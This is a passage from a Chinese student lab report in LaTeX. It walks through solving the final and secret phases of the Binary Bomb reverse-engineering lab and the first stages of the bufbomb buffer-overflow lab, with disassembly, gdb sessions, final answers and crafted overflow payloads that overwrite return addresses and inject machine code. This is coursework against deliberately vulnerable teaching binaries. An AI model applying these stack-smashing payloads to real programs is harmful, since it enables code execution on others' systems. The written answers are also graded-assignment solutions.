8048e20: 83 fe 06       cmp  $0x6,%esi // 遍历完六个数则退出大循环
8048e23: 74 1b          je   8048e40 <phase_6+0x5b>
8048e25: 89 f3          mov  %esi,%ebx // %ebx=%esi+1
8048e27: 8b 44 9c 0c    mov  0xc(%esp,%ebx,4),%eax // 小循环 start
8048e2b: 39 44 b4 08    cmp  %eax,0x8(%esp,%esi,4)
8048e2f: 75 05          jne  8048e36 <phase_6+0x51>
8048e31: e8 eb 02 00 00 call 8049121 <explode_bomb>
8048e36: 83 c3 01       add  $0x1,%ebx
8048e39: 83 fb 05       cmp  $0x5,%ebx
8048e3c: 7e e9          jle  8048e27 <phase_6+0x42> // 小循环 end
8048e3e: eb cc          jmp  8048e0c <phase_6+0x27> // 大循环 end
\end{lstlisting}
上述代码中首先将\verb|%esi|置为0,作为大循环的迭代变量,接着将当前迭代到的数字送入\verb|%eax|中。我们输入的数字存放在以\verb|0xc+%esp|为首地址的连续内存空间中。在大循环中判断每个数字是否小于或等于6,如果不是,则会爆炸。接下来\verb|%ebx|被设为\verb|%esi+1|,即当前大循环遍历的数的后一个数,并作为小循环的迭代变量。在小循环中,每个排在后面的数字与大循环中当前遍历的数字(\verb|0x8(%esp,%esi,4)|)作比较,若两个数字相等,则引爆炸弹。

分析完该部分代码,可以知道,输入的六个数字需要各不相等且小于或等于6。

为了便于表述,接下来将输入的数组称作\verb|in_arr|。

\item 分析第二个循环\label{l4}

查看第二个循环的反汇编代码:
\begin{lstlisting}
8048e40: 8d 44 24 0c     lea  0xc(%esp),%eax // 数组首元素的地址
8048e44: 8d 5c 24 24     lea  0x24(%esp),%ebx // 最后一个数字的下一个地址
8048e48: b9 07 00 00 00  mov  $0x7,%ecx
8048e4d: 89 ca           mov  %ecx,%edx // loop2 start
8048e4f: 2b 10           sub  (%eax),%edx
8048e51: 89 10           mov  %edx,(%eax) // (%eax) = 7-(%eax)
8048e53: 83 c0 04        add  $0x4,%eax
8048e56: 39 c3           cmp  %eax,%ebx
8048e58: 75 f3           jne  8048e4d <phase_6+0x68> // loop2 end
\end{lstlisting}
本段代码首先将\verb|in_arr|首元素的地址赋给\verb|%eax|,并将\verb|in_arr|最后一个数字的下一个地址赋给\verb|%ebx|。在第二个循环中,\verb|in_arr|的每个元素$x$被换算成$7-x$。

\item 分析第三个循环

第三个循环也是一个大循环嵌套小循环的形式,反汇编代码如下所示:
\begin{lstlisting}
8048e5a: bb 00 00 00 00 mov  $0x0,%ebx
8048e5f: eb 16          jmp  8048e77 <phase_6+0x92> // jmp into l1 *

8048e61: 8b 52 08       mov  0x8(%edx),%edx         // l2 start
8048e64: 83 c0 01       add  $0x1,%eax
8048e67: 39 c8          cmp  %ecx,%eax
8048e69: 75 f6          jne  8048e61 <phase_6+0x7c> // l2 end

8048e6b: 89 54 b4 24    mov  %edx,0x24(%esp,%esi,4) // l1 start
8048e6f: 83 c3 01       add  $0x1,%ebx
8048e72: 83 fb 06       cmp  $0x6,%ebx
8048e75: 74 17          je   8048e8e <phase_6+0xa9> // l1 break
8048e77: 89 de          mov  %ebx,%esi              // l1 from *
8048e79: 8b 4c 9c 0c    mov  0xc(%esp,%ebx,4),%ecx
8048e7d: b8 01 00 00 00 mov  $0x1,%eax
8048e82: ba 3c c1 04 08 mov  $0x804c13c,%edx        // %edx是node的首地址
8048e87: 83 f9 01       cmp  $0x1,%ecx
8048e8a: 7f d5          jg   8048e61 <phase_6+0x7c> // jmp to l2
8048e8c: eb dd          jmp  8048e6b <phase_6+0x86> // l1 end
\end{lstlisting}
本段代码将存放在以\verb|0x804c13c|为首地址的连续内存空间中的链表节点的地址存放在\verb|in_arr|的后六个空间。\verb|in_arr|前六个元素的值作为链表存放顺序的索引。例如,若\verb|in_arr[i]|的值为\verb|1|,则\verb|in_arr[i+6]|的值为链表中第\verb|1|个元素的地址。

\item 查看链表的各个节点

使用\verb|gdb|查看位于\verb|0x804c13c|处的链表各个节点的值:
\begin{lstlisting}
(gdb) x /3xw 0x804c13c
//                      value           index           next
0x804c13c <node1>:      0x0000023b      0x00000001      0x0804c148
0x804c148 <node2>:      0x00000357      0x00000002      0x0804c154
0x804c154 <node3>:      0x000002fc      0x00000003      0x0804c160
0x804c160 <node4>:      0x000000e9      0x00000004      0x0804c16c
0x804c16c <node5>:      0x000000ac      0x00000005      0x0804c178
0x804c178 <node6>:      0x0000016d      0x00000006      0x00000000
\end{lstlisting}
其中每个节点的三个字段依次为\verb|value|、\verb|index|以及\verb|next|。根据上述链表节点信息,我们可以发现,链表节点按照\verb|index|顺序连接。

\item 分析第四个循环

查看第四个循环的代码:
\begin{lstlisting}
8048e8e: 8b 5c 24 24 mov   0x24(%esp),%ebx // %ebx=in_arr[6]
8048e92: 8d 44 24 24 lea   0x24(%esp),%eax // %eax=in_arr+6
8048e96: 8d 74 24 38 lea   0x38(%esp),%esi // %esi=in_arr+11
8048e9a: 89 d9       mov   %ebx,%ecx       // %ecx=in_arr[6]
8048e9c: 8b 50 04    mov   0x4(%eax),%edx  // loop start
8048e9f: 89 51 08    mov   %edx,0x8(%ecx)  // in_arr[i]->next=in_arr[i+1]
8048ea2: 83 c0 04    add   $0x4,%eax
8048ea5: 89 d1       mov   %edx,%ecx
8048ea7: 39 c6       cmp   %eax,%esi
8048ea9: 75 f1       jne   8048e9c <phase_6+0xb7> // loop end
\end{lstlisting}
本段代码将\verb|in_arr|中存放的六个链表节点依次连接。

\item 分析第五个循环

查看第五个循环的代码段:
\begin{lstlisting}
8048eab: c7 42 08 00 00 00 00 movl $0x0,0x8(%edx) // in_arr[11]->next=NULL
8048eb2: be 05 00 00 00       mov  $0x5,%esi
8048eb7: 8b 43 08             mov  0x8(%ebx),%eax // loop start
8048eba: 8b 00                mov  (%eax),%eax

8048ebc: 39 03                cmp  %eax,(%ebx)
                              // *(in_arr[i])>=*(in_arr[i]->next)

8048ebe: 7d 05                jge  8048ec5 <phase_6+0xe0>
8048ec0: e8 5c 02 00 00       call 8049121 <explode_bomb>
8048ec5: 8b 5b 08             mov  0x8(%ebx),%ebx
8048ec8: 83 ee 01             sub  $0x1,%esi
8048ecb: 75 ea                jne  8048eb7 <phase_6+0xd2> // loop end
\end{lstlisting}
本部分代码要求\verb|*(in_arr[i])>=*(in_arr[i]->next)|,\verb|i| $\in [6...10]$,如果违反,则会爆炸。因此,我们需要设计一组特定的序号,使得链表中的节点按照给定的序号进行排序,且排序后的链表为降序排序。

\item 设计实验相应的输入

查看各个链表节点的值:
\begin{center}
\begin{tabular}{|c|c|c|c|c|c|}
\hline
node1 & node2 & node3 & node4 & node5 & node6 \\
\hline
0x0000023b & 0x00000357 & 0x000002fc & 0x000000e9 & 0x000000ac & 0x0000016d \\
\hline
\end{tabular}
\end{center}

经过降序排序后:
\begin{center}
\begin{tabular}{|c|c|c|c|c|c|}
\hline
node2 & node3 & node1 & node6 & node4 & node5 \\
\hline
0x00000357 & 0x000002fc & 0x0000023b & 0x0000016d & 0x000000e9 & 0x000000ac \\
\hline
\end{tabular}
\end{center}

因此,链表节点的顺序是:

\verb|2 3 1 6 4 5|

但考虑到在\ref{l4}中,程序将\verb|in_arr[i]|换算成了\verb|7-in_arr[i]|,因此,我们的输入也应该做相应的换算:

\verb|5 4 6 1 3 2|

\end{enumerate}

\item 实验结果

将参数\verb|5 4 6 1 3 2|输入到\verb|ans.txt|中并运行程序:
\begin{lstlisting}
$ echo "5 4 6 1 3 2" >> ans.txt
$ ./bomb ans.txt
Welcome to my fiendish little bomb. You have 6 phases with
which to blow yourself up. Have a nice day!
Phase 1 defused. How about the next one?
That is number 2.  Keep going!
Halfway there!
So you got that one.  Try this one.
Good work!  On to the next...
Congratulations! You have defused the bomb!
\end{lstlisting}
顺利通过!

\end{enumerate}

\subsubsection{阶段7 二叉查找树}
\begin{enumerate}
\item 任务描述

寻找隐藏关卡触发的条件并将其触发,查看二叉树的节点数据并将其形象化,写出函数相应的\verb|C|语言代码并分析出需要输入的数字。

\item 实验设计

\begin{enumerate}
\item 找到触发隐藏关卡的方法;
\item 判断输入数据的类型以及范围;
\item 查看二叉树的节点信息并形象化;
\item 将关键函数的\verb|C|语言代码写出来;
\item 查看函数期望的返回值;
\item 确定输入的数字。
\end{enumerate}

\item 实验过程

\begin{enumerate}
\item 找到触发隐藏关卡的方法

在\verb|phase_defused|中有\verb|call secret_phase|的指令,查看相关代码:
\begin{lstlisting}
80492a3: 50                   push %eax
80492a4: 68 49 a2 04 08       push $0x804a249 // "%d %d %s"
80492a9: 68 d0 c4 04 08       push $0x804c4d0 // 9 27第四关的输入
80492ae: e8 5d f5 ff ff       call 8048810 <__isoc99_sscanf@plt>
80492b3: 83 c4 20             add  $0x20,%esp
80492b6: 83 f8 03             cmp  $0x3,%eax  // 第四关需输入三个参数
80492b9: 75 3a                jne  80492f5 <phase_defused+0x7b>
80492bb: 83 ec 08             sub  $0x8,%esp
80492be: 68 52 a2 04 08       push $0x804a252 // 第三个参数是"DrEvil"
80492c3: 8d 44 24 18          lea  0x18(%esp),%eax
80492c7: 50                   push %eax
80492c8: e8 5d fd ff ff       call 804902a <strings_not_equal>
80492cd: 83 c4 10             add  $0x10,%esp
80492d0: 85 c0                test %eax,%eax
80492d2: 75 21                jne  80492f5 <phase_defused+0x7b>
80492d4: 83 ec 0c             sub  $0xc,%esp
80492d7: 68 18 a1 04 08       push $0x804a118
80492dc: e8 df f4 ff ff       call 80487c0 <puts@plt>
80492e1: c7 04 24 40 a1 04 08 movl $0x804a140,(%esp)
80492e8: e8 d3 f4 ff ff       call 80487c0 <puts@plt>
80492ed: e8 44 fc ff ff       call 8048f36 <secret_phase> // 开启隐藏关卡
80492f2: 83 c4 10             add  $0x10,%esp
80492f5: 83 ec 0c             sub  $0xc,%esp
\end{lstlisting}
上述代码首先读取第四关的输入,并将第三个参数与字符串\verb|"DrEvil"|作比较,若相等,则不跳过隐藏关卡。

因此,我们只需要在第四关答案的后面添加字符串\verb|"DrEvil"|即可:
\begin{lstlisting}
$ sed -i '4 s/$/ DrEvil/' ans.txt // 在第四行末尾添加" DrEvil",sed真好用!
$ ./bomb ans.txt
Welcome to my fiendish little bomb. You have 6 phases with
which to blow yourself up. Have a nice day!
Phase 1 defused. How about the next one?
That is number 2.  Keep going!
Halfway there!
So you got that one.  Try this one.
Good work!  On to the next...
Curses, you have found the secret phase! // 触发隐藏关卡
But finding it and solving it are quite different...
\end{lstlisting}
根据输出提示,我们已经触发隐藏关卡了。

\item 判断输入数据的类型以及范围

查看隐藏关卡输入部分的代码:
\begin{lstlisting}
8048f3a: e8 42 02 00 00  call  8049181 <read_line>
8048f3f: 83 ec 04        sub   $0x4,%esp
8048f42: 6a 0a           push  $0xa
8048f44: 6a 00           push  $0x0
8048f46: 50              push  %eax
8048f47: e8 34 f9 ff ff  call  8048880 <strtol@plt>
\end{lstlisting}
函数\verb|strtol|将一个表示整数的字符串转化成整数,因此本关卡要求输入一个整数。

接着查看限定整数范围的代码:
\begin{lstlisting}
8048f4e: 8d 40 ff       lea  -0x1(%eax),%eax
8048f51: 83 c4 10       add  $0x10,%esp
8048f54: 3d e8 03 00 00 cmp  $0x3e8,%eax // %eax-1<=0x3e8
8048f59: 76 05          jbe  8048f60 <secret_phase+0x2a>
8048f5b: e8 c1 01 00 00 call 8049121 <explode_bomb>
8048f60: 83 ec 08       sub  $0x8,%esp
\end{lstlisting}
通过上述代码分析可知,输入的数字要小于或等于\verb|0x3e8+1=1001|。

\item 查看二叉树的节点信息并形象化\label{l5}

查看\verb|fun7|函数调用代码:
\begin{lstlisting}
8048f63: 53             push  %ebx
8048f64: 68 88 c0 04 08 push  $0x804c088
8048f69: e8 77 ff ff ff call  8048ee5 <fun7> // fun7(0x804c088, p1)
\end{lstlisting}
上述代码段将二叉树的根节点作为参数传给\verb|func7|,同时将我们输入的数字\verb|p1|作为另外一个参数传入。

查看\verb|0x804c088|处保存的二叉树节点信息:
\begin{lstlisting}
(gdb) x /3xw 0x804c088
//              value           left            right
0x804c088 <n1> :0x00000024      0x0804c094      0x0804c0a0
0x804c094 <n21>:0x00000008      0x0804c0c4      0x0804c0ac
0x804c0a0 <n22>:0x00000032      0x0804c0b8      0x0804c0d0
0x804c0c4 <n31>:0x00000006      0x0804c0e8      0x0804c10c
0x804c0ac <n32>:0x00000016      0x0804c118      0x0804c100
0x804c0b8 <n33>:0x0000002d      0x0804c0dc      0x0804c124
0x804c0d0 <n34>:0x0000006b      0x0804c0f4      0x0804c130
0x804c0e8 <n41>:0x00000001      0x00000000      0x00000000
0x804c10c <n42>:0x00000007      0x00000000      0x00000000
0x804c118 <n43>:0x00000014      0x00000000      0x00000000
0x804c100 <n44>:0x00000023      0x00000000      0x00000000
0x804c0dc <n45>:0x00000028      0x00000000      0x00000000
0x804c124 <n46>:0x0000002f      0x00000000      0x00000000
0x804c0f4 <n47>:0x00000063      0x00000000      0x00000000
0x804c130 <n48>:0x000003e9      0x00000000      0x00000000
\end{lstlisting}

根据节点信息将二叉树可视化:
\begin{figure}[H]
    \centering
    
\includegraphics[scale=0.28]{images/bitree.png}
    \caption{Bitree}
    \label{fig:1}
\end{figure}
不难发现,这是一棵二叉搜索树。

\item 将关键函数的\verb|C|语言代码写出来

查看\verb|fucn7|函数的主体代码:
\begin{lstlisting}
8048ee9: 8b 54 24 10    mov  0x10(%esp),%edx //  edx = p1
8048eed: 8b 4c 24 14    mov  0x14(%esp),%ecx //  ecx = p2
8048ef1: 85 d2          test %edx,%edx
8048ef3: 74 37          je   8048f2c <fun7+0x47> // p1==NULL
8048ef5: 8b 1a          mov  (%edx),%ebx
8048ef7: 39 cb          cmp  %ecx,%ebx
8048ef9: 7e 13          jle  8048f0e <fun7+0x29>// p1->val<p2
8048efb: 83 ec 08       sub  $0x8,%esp
8048efe: 51             push %ecx           // p2
8048eff: ff 72 04       push 0x4(%edx)      // p1->left
8048f02: e8 de ff ff ff call 8048ee5 <fun7>
8048f07: 83 c4 10       add  $0x10,%esp
8048f0a: 01 c0          add  %eax,%eax     // ret 2*func7(p1->left, p2)
8048f0c: eb 23          jmp  8048f31 <fun7+0x4c>
8048f0e: b8 00 00 00 00 mov  $0x0,%eax
8048f13: 39 cb          cmp  %ecx,%ebx
8048f15: 74 1a          je   8048f31 <fun7+0x4c>
8048f17: 83 ec 08       sub  $0x8,%esp
8048f1a: 51             push %ecx
8048f1b: ff 72 08       push 0x8(%edx)
8048f1e: e8 c2 ff ff ff call 8048ee5 <fun7>
8048f23: 83 c4 10       add  $0x10,%esp
8048f26: 8d 44 00 01    lea  0x1(%eax,%eax,1),%eax//ret 2*func7(p1->right,p2)+1
8048f2a: eb 05          jmp  8048f31 <fun7+0x4c>
8048f2c: b8 ff ff ff ff mov  $0xffffffff,%eax // return -1
8048f31: 83 c4 08       add  $0x8,%esp
8048f34: 5b             pop  %ebx
8048f35: c3             ret
\end{lstlisting}
根据上述代码很容易写出相应的\verb|C|语言代码:
\begin{lstlisting}
int fun7(node* p1, int p2)
{
    if (p1 == NULL)
        return -1;
    if (p1->val == p2)
        return 0;
    if (p1->val < p2)
       return 2*fun7(p1->right, p2)+1; // right
    if (p1->val > p2)
        return 2*fun7(p1->left, p2); // left
}
\end{lstlisting}
根据\ref{l5}中的分析,该二叉树是一棵搜索二叉树,因此不难发现\verb|func7|实际上是在二叉树中寻找节点值等于\verb|p2|的节点,并根据寻找的方向决定递归的公式。

\item 查看函数期望的返回值

查看程序中\verb|func7|返回后的部分代码:
\begin{lstlisting}
8048f69: e8 77 ff ff ff call 8048ee5 <fun7> // fun7(root, input)
8048f6e: 83 c4 10       add  $0x10,%esp
8048f71: 83 f8 03       cmp  $0x3,%eax  // fun7 needs to return 3
8048f74: 74 05          je   8048f7b <secret_phase+0x45>
8048f76: e8 a6 01 00 00 call 8049121 <explode_bomb>
8048f7b: 83 ec 0c       sub  $0xc,%esp
\end{lstlisting}
根据上述代码可以确定,函数\verb|func7|需要返回\verb|3|使得炸弹不被引爆。

\item 确定输入的数字

根据图\ref{fig:1}以及\verb|func7|的代码可知,当搜索的节点值为\verb|107|时,函数\verb|func7|的返回值恰好是\verb|3|。因此,我们应该输入的数字是\verb|107|。

\end{enumerate}

\item 实验结果

将参数\verb|107|输入到\verb|ans.txt|中并运行程序:
\begin{lstlisting}
$ echo "107" >> ans.txt
$ ./bomb ans.txt
Welcome to my fiendish little bomb. You have 6 phases with
which to blow yourself up. Have a nice day!
Phase 1 defused. How about the next one?
That is number 2.  Keep going!
Halfway there!
So you got that one.  Try this one.
Good work!  On to the next...
Curses, you have found the secret phase!
But finding it and solving it are quite different...
Wow! You have defused the secret stage!
Congratulations! You have defused the bomb!
\end{lstlisting}
顺利通过!

\end{enumerate}

\subsection{Binary Bomb实验小结}

本次实验是我做过的所有实验中最具有挑战性的实验之一。在整个实验中,我深入到汇编代码层,使用gdb与objdump工具剖析可执行文件,这使得我对可执行文件的结构有了更深入的认识。

在本次实验中,我还使用C语言以及数据结构的知识,对反汇编代码进行了解析,分析出反汇编代码中蕴含的逻辑关系以及程序的运行过程。

最重要的一点是,在本次实验的过程中,我对GNU套件以及Linux操作系统有了更加深入的了解,对调试器,反汇编工具以及Linux命令行的使用也更加熟悉。这将为我日后进行相关的开发工作打下坚实的基础。
\newpage

\section{实验三:缓冲区溢出攻击}

\subsection{实验概述}

本实验的目的在于加深对IA-32函数调用规则和栈结构的具体理解。实验的主要内容是对一个可执行程序“bufbomb”实施一系列缓冲区溢出攻击(buffer overflow attacks),也就是设法通过造成缓冲区溢出来改变该可执行程序的运行内存映像,继而执行一些原来程序中没有的行为,例如将给定的字节序列插入到其本不应出现的内存位置等。本次实验需要我熟练运用gdb、objdump、gcc等工具完成。

实验中我需要对目标可执行程序bufbomb分别完成5个难度递增的缓冲区溢出攻击。5个难度级分别命名为Smoke(level 0)、Fizz(level 1)、Bang(level 2)、Boom(level 3)和Nitro(level 4),其中Smoke级最简单而Nitro级最困难。

实验语言:c;实验环境:linux

\subsection{实验内容}

本实验中可执行程序bufbomb可以接受一个字符串的输入,但是在bufbomb中并不会检查输入字符串的长度。我们的目的是通过分别输入一系列字符串使得bufbomb中的字符串缓冲区溢出并覆盖掉调用函数的断点,使得程序能够调用各个阶段的函数并达到相应的目的。

本实验中需要多次手动编写汇编代码并获取相应指令的机器码。为了方便下文中的实验,我在实验开始之前简单编写了一个\verb|asm2bin.sh|脚本,将输入的汇编代码文件中\verb|.text|段的机器码以16进制字符的形式打印出来,并统计机器码的长度。\verb|asm2bin.sh|内容如下:
\begin{lstlisting}
# usage: asm2bin main.asm
gcc $1 -c -o _main.o -nostdlib -m32
objdump -d _main.o | grep -E "[0-9]{8} <.text>" -A100 | cut -f2 | tail -n+2 | sed ':a;N;$!ba;s/\n//g' | sed 's/  */ /g' >_main_bin.txt
cat _main_bin.txt
echo "code length : $(tail -n1 _main_bin.txt | wc -w) Byte"
rm -f _main.o _main_bin.txt
\end{lstlisting}

为了方便得到一系列重复的16进制字节序列,我还需要写一个简单的脚本\verb|gencode.sh|来生成指定数量、内容重复的16进制字节序列。\verb|gencode.sh|的内容如下:
\begin{lstlisting}
# usage: ./gencode.sh <repeat times> <content>
for ((i = 0; i < $1; ++i)); do
        echo -n "$2 "
done
\end{lstlisting}

\subsubsection{阶段1:Smoke}

\begin{enumerate}
\item 任务描述

分析输入缓冲区的长度并确定\verb|getbuf|函数的返回地址在栈中的位置,找到\verb|smoke|函数的入口地址并利用缓冲区溢出覆盖掉\verb|getbuf|函数的返回地址,使程序在执行的过程中调用\verb|smoke|函数。

\item 实验设计

\begin{enumerate}
\item 分析\verb|getbuf|函数的栈空间,确定返回地址在栈中的位置;
\item 查看\verb|smoke|函数的入口地址;
\item 将\verb|smoke|函数的入口地址通过缓冲区覆盖原返回地址。
\end{enumerate}

\item 实验过程 \label{l7}

\begin{enumerate}
\item 分析\verb|getbuf|函数的栈空间,确定返回地址在栈中的位置 \label{l6}

首先使用\verb|objdump|查看可执行程序bufbomb的反汇编代码:

\verb|objdump -D bufbomb > bufbomb.s|

在\verb|bufbomb.s|中找到\verb|getbuf|函数的主体代码:
\begin{lstlisting}
080491ec <getbuf>:
 80491ec: 55             push  %ebp
 80491ed: 89 e5          mov   %esp,%ebp
 80491ef: 83 ec 38       sub   $0x38,%esp
 80491f2: 8d 45 d8       lea   -0x28(%ebp),%eax // 分配0x28=40个字节的空间
 80491f5: 89 04 24       mov   %eax,(%esp)
 80491f8: e8 55 fb ff ff call  8048d52 <Gets>
 80491fd: b8 01 00 00 00 mov   $0x1,%eax
 8049202: c9             leave
 8049203: c3             ret
\end{lstlisting}
由上述的代码可知,程序会给输入缓冲区分配\verb|0x28=40|个字节的空间。

查看第\verb|5|行中保存在\verb|%eax|中的字符串缓冲区的首地址:
\begin{lstlisting}
$ gdb ./bufbomb
(gdb) b *0x80491f5 // 对应上述代码第6行,即给%eax赋值之后
Breakpoint 1 at 0x80491f5
(gdb) r -u U202115325
Userid: U202115325
Cookie: 0x7b52e696

Breakpoint 1, 0x080491f5 in getbuf ()
(gdb) p /x $eax
$1 = 0x55683c28 // 缓冲区首地址
\end{lstlisting}
在进入\verb|getbuf|函数时,程序首先将\verb|%ebp|保存在栈中。因此字符串缓冲区后的四个字节为旧的\verb|%ebp|,在旧\verb|%ebp|前的四个字节即是函数的返回地址,即:\verb|0x55683c28+0x28+4=0x55683c54|。

\item 查看\verb|smoke|函数的入口地址

在反汇编代码\verb|bufbomb.s|中找到\verb|smoke|函数中:
\begin{lstlisting}
$ grep "<smoke>" bufbomb.s
08048c90 <smoke>:
\end{lstlisting}
由输出很容易知道,\verb|smoke|函数的入口地址为\verb|0x08048c90|。

\item 将\verb|smoke|函数的入口地址通过缓冲区覆盖原返回地址

根据\ref{l6}中的分析可知,输入缓冲区的大小是\verb|40|个字节,紧跟在缓冲区后 的是保存在栈中的\verb|%ebp|的值以及函数的返回地址。因此我们一共需要输入\verb|48|个字节的内容,其中\verb|smoke|函数的入口地址以小端存储的方式放在最后\verb|4|个字节以覆盖函数的返回地址。在\verb|smoke_U202115325.txt|中输入:
\begin{lstlisting}
$ ./gencode.sh 44 00 > smoke_U202115325.txt // 生成44字节的00
$ echo -n "90 8c 04 08" >> smoke_U202115325.txt // smoke入口地址小端表示
\end{lstlisting}

\end{enumerate}

\item 实验结果

将生成的答案\verb|smoke_U202115325.txt|通过\verb|hex2raw|转化为2进制后再输入到可执行文件bufbomb中:
\begin{lstlisting}
$ ./hex2raw < smoke_U202115325.txt | ./bufbomb -u U202115325
Userid: U202115325
Cookie: 0x7b52e696
Type string:Smoke!: You called smoke()
VALID
NICE JOB!
\end{lstlisting}
顺利通过!

\end{enumerate}

\subsubsection{阶段2:Fizz}

\begin{enumerate}
\item 任务描述

通过缓冲区溢出攻击手段将函数的返回地址改为\verb|fizz|函数的入口地址,并使用栈传参的方式将\verb|cookie|的值作为参数传入\verb|fizz|函数中。

\item 实验设计

\begin{enumerate}
\item 查看\verb|fizz|函数的入口地址;
\item 将\verb|cookie|值作为参数放在栈中相应的位置;
\item 设计输入的十六进制内容。

\end{enumerate}

\item 实验过程

\begin{enumerate}
\item 查看\verb|fizz|函数的入口地址

通过反汇编代码文件\verb|bufbomb.s|查看\verb|fizz|函数的入口地址:
\begin{lstlisting}
$ grep '<fizz>' bufbomb.s
08048cba <fizz>:
\end{lstlisting}
通过输出的信息判断,\verb|fizz|的入口地址为\verb|0x08048cba|

\item 将\verb|cookie|值作为参数放在栈中相应的位置

分析\verb|fizz|函数入口部分的代码:
\begin{lstlisting}
08048cba <fizz>:
 8048cba: 55         push   %ebp
 8048cbb: 89 e5      mov    %esp,%ebp
 8048cbd: 83 ec 18   sub    $0x18,%esp
 8048cc0: 8b 45 08   mov    0x8(%ebp),%eax // 获取参数
\end{lstlisting}
由上述代码可以看出,\verb|fizz|函数输入的参数在\verb|0x8+%ebp|中。考虑到\verb|getbuf|执行\verb|ret|语句后,断点地址从栈中弹出并送入\verb|%eip|中,因此此时栈顶指针\verb|%esp|指向的是断点地址的下一个字节,即输入内容中的第\verb|48|个字节。进入\verb|fizz|函数后,程序首先将\verb|%ebp|保存在栈中,并将\verb|%esp|的值赋给\verb|%ebp|,此时\verb|%ebp|的与\verb|%esp|相同,指向的位置为输入内容中的第\verb|48-4=44|个字节。由此推出\verb|0x8| \verb|+%ebp|地址对应输入内容中的第\verb|44+8=52个字节|。因此,我们只需要在输入内容中将第\verb|52~55|个字节设为\verb|cookie|的值即可让函数\verb|fizz|获取对应的参数。

\item 设计输入的十六进制内容

结合第一问中的分析,我们需要将\verb|fizz|函数的入口地址放在输入内容中的第\verb|44~47|个字节中,并将cookie的值放在第\verb|52~55|个字节上即可。

下面构造输入的16进制字符串:
\begin{lstlisting}
$ ./gencode.sh 44 00 > fizz_U202115325.txt // byte 0~43
$ echo -n "ba 8c 04 08 " >> fizz_U202115325.txt // byte 44~47,fizz的地址
$ ./gencode.sh 4 00 >> fizz_U202115325.txt // byte 48~51
$ echo -n "96 e6 52 7b" >> fizz_U202115325.txt // byte 52~55,cookie值
\end{lstlisting}

\end{enumerate}

\item 实验结果

将生成的答案\verb|fizz_U202115325.txt|通过\verb|hex2raw|转化为2进制后再输入到可执行文件bufbomb中:
\begin{lstlisting}
$ ./hex2raw < fizz_U202115325.txt | ./bufbomb -u U202115325
Userid: U202115325
Cookie: 0x7b52e696
Type string:Fizz!: You called fizz(0x7b52e696)
VALID
NICE JOB!
\end{lstlisting}
顺利通过!

\end{enumerate}

\subsubsection{阶段3:Bang}

\begin{enumerate}
\item 任务描述

使用缓冲区溢出插入攻击代码将\verb|bang|函数中使用的全局变量的值修改为\verb|cookie|的值,并调用\verb|bang|函数。

\item 实验设计

\begin{enumerate}
\item 查看\verb|bang|函数的入口地址;
\item 查看\verb|bang|函数中使用的全局变量的地址;
\item 设计攻击代码;
\item 将攻击代码插入到缓冲区中并用入口地址覆盖返回地址。
\end{enumerate}

\item 实验过程

\begin{enumerate}
\item 查看\verb|bang|函数的入口地址

通过查找反汇编代码\verb|bufbomb.s|中的\verb|bang|函数查看其入口地址:
\begin{lstlisting}
$ grep "<bang>" bufbomb.s
08048d05 <bang>:
\end{lstlisting}
观察上述输出得到\verb|bang|函数的入口地址为\verb|0x08048d05|。

\item 查看\verb|bang|函数中使用的全局变量的地址

查看\verb|bang|函数中调用全局变量的部分代码:
\begin{lstlisting}
8048d05: 55                 push %ebp
8048d06: 89 e5              mov  %esp,%ebp
8048d08: 83 ec 18           sub  $0x18,%esp
8048d0b: a1 18 c2 04 08     mov  0x804c218,%eax
8048d10: 3b 05 20 c2 04 08  cmp  0x804c220,%eax
\end{lstlisting}
使用\verb|gdb|查看\verb|0x804c218|与\verb|0x804c220|这两个地址的标签:
\begin{lstlisting}
$ gdb ./bufbomb
(gdb) x /xw 0x804c218
0x804c218 <global_value>:       0x00000000
(gdb) x /xw 0x804c220
0x804c220 <cookie>:     0x00000000
\end{lstlisting}
通过观察上述输出很容易确定\verb|global_value|的地址位于\verb|0x804c218|处。

\item 设计攻击代码

在攻击代码中首先需要将\verb|global_value|的值改为\verb|cookie|,接着还需要跳转到\verb|bang|函数的入口地址。

上述两个步骤可以通过编写汇编语言代码来实现,在\verb|bang.s|中:
\begin{lstlisting}
.text
    movl $0x7b52e696, 0x804c218 // global_value = my cookie
    movl $0x08048d05, %eax      // jump to bang at 0x08048d05
    jmp  *%eax
\end{lstlisting}
上述代码使用\verb|movl|指令将我们的\verb|cookie|保存到全局变量\verb|gloabal_value|的地址上,并通过转跳指令\verb|jmp|转跳到\verb|bang|函数的入口地址处。

\item 将攻击代码插入到缓冲区中并用入口地址覆盖返回地址

首先使用我们编写好的\verb|asm2bin.sh|脚本获取上述代码对应的机器码及其长度:
\begin{lstlisting}
$ ./asm2bin.sh bang.s
c7 05 18 c2 04 08 96 e6 52 7b b8 05 8d 04 08 ff e0 
code length : 17 Byte
\end{lstlisting}

